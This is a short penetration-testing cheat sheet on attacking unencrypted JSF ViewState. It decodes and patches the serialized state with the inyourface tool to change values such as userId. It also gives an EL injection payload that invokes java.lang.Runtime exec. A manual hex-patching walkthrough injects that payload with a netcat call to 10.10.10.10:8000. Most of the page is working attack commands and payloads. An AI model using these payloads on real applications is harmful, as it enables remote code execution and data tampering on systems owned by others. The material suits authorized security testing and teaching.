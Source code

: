 # JSF Viewstate

If the viewstate is not encrypted and interpreted on client side. It is possible to deserialize it and retrieve informations. Moreover, it is also possible to patch it in order to alter data value and in some specific case do remote code execution.

## Decode

```
$ ./inyourface.sh viewstate.txt > decoded.txt
```

## Patching the viewstate

```
$ ./inyourface.sh -patch 0x7e0040 userId 0 -outfile /tmp/patched.txt /tmp/viewstate.txt
```

For RCE search for: **org.apache.el.ValueExpressionImpl**

Here is a payload example: 

```
#{request.getClass().getClassLoader().loadClass(‘java.lang.
Runtime’).getDeclaredMethods()[6].invoke(null).exec(‘<cmd>’)
```

Then patch the viewstate:

```
./inyourface.sh -rawpatch 441 465 /tmp/payload.txt -outfile /tmp/patched.txt /tmp/viewstate.txt
```

## Rawpatch

Sometimes, the patching does not work correctly, then it is necessary to patch it manually.

First store the hex data to patch on a file:

```
$ echo -ne '\x4d\x00\x42\x23\x7b\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x52\x4f\x20\x61\x6e\x64\x20\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x41\x52\x7d\x00\x07\x62\x6f\x6f\x6c\x65\x61\x6e' > /tmp/blockdata.bin
```

Then specify the modified command, the file with the hex data to modify and the output file which will content the new hex data patched.

```
./patch_blockdata.py "#{\!sessionUtilisateurBean.isPRO and \!sessionUtilisateurBean.isPAR}" "#{request.getClass().getClassLoader().loadClass('java.lang.Runtime').getDeclaredMethods()[6].invoke(null).exec('nc 10.10.10.10 8000')}" blockdata.bin blockdata-patched.bin
```

Finally, launch the inyourface tool:

```
$ ./inyourface.sh -rawpatch 4109 4187 /tmp/blockdata-patched.bin -outfile /tmp/viewstate-patched.txt /tmp/viewstate.txt
```

## Links

https://www.synacktiv.com/ressources/MISC69_pentest_JSF.pdf

For trainings : https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles

Thanks to Renaud Dubourguais and Nicolas Collignon for the tools and their helps :D 